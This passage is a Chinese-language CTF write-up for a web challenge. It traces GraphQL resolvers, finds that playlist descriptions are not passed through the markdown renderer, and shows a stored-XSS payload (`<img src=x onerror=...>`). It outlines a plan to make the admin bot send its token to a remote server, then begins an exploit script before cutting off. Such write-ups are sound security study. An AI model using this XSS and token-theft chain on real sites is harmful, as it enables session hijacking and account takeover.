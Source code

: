 ```js
    ...
```
由于 client 获取数据时是通过 graphql API 进行查询的，graphql 在返回数据时还进行了额外的处理，Show 和 Episode 数据的 description 字段都会进入 renderHtml 函数。

```js
Show: {
    description: (show: Show) => renderHtml(show.description),
    rawDescription: (show: Show) => show.description,
    genres: (show: Show) => loadShowGenres(show.id),
    episodes: (show: Show) => loadShowEpisodes(show.id),
    owner: (show: Show) => loadUser(show.owner)
},
Episode: {
    description: (episode: Episode) => renderHtml(episode.description),
    rawDescription: (episode: Episode) => episode.description,
    show: (episode: Episode) => loadShow(episode.show),
    previous: async (episode: Episode) => notFoundToNull(loadPreviousEpisode(episode.id)),
    next: async (episode: Episode) => notFoundToNull(loadNextEpisode(episode.id))
},
```

renderHtml 函数的内容如下，micromark 可以将 markdown 语法的内容转化为 html。
```js
export function renderHtml(content: string): string {
	return micromark(content);
}
```
如果 micromark 的渲染存在漏洞，没准也是可以达成 XSS 的，但毕竟是一个最新版本的开源库，难度还是很大的。

看到这里其实可以发现，Playlist 的 description 字段其实是没有经过 renderHtml 处理的，可以直接验证一下是否存在 XSS。

1. 首先注册一个用户并登陆。
2. create playlist 创建 playlist，在 description 中填入 XSS payload：`<img src=x onerror=alert(/xxxx/);>`
3. 提交之后回到主页面，点击左上方的用户名就可以查看所有的 playlist。
4. 成功触发 XSS
   ![20230418043722](https://de34dnotespics.oss-cn-beijing.aliyuncs.com/img/20230418043722.png)
   
所以 exp 就很明确了：
1. 创建带有 XSS payload playlist
2. 将触发的链接填入 /report
3. admin bot 访问之后触发 XSS，将 token 发送到远程服务器
4. 获取到 token 之后访问 flag 接口即可得到 flag。

exp.py
```py
import requests
import json

host = "http://5c3eea90-99b7-473b-a43f-d285092cd5a9.dubs.putlocker.chal.pwni.ng:20007"
username = "dummykitty"
password = "dummykitty"

sess = requests.session()

proxies = {
    "http":"http://127.0.0.1:8080",
    "https":"http://127.0.0.1:8080"
}

def register():
    data = {
        "operationName":"Register",
        "variables":{},
```
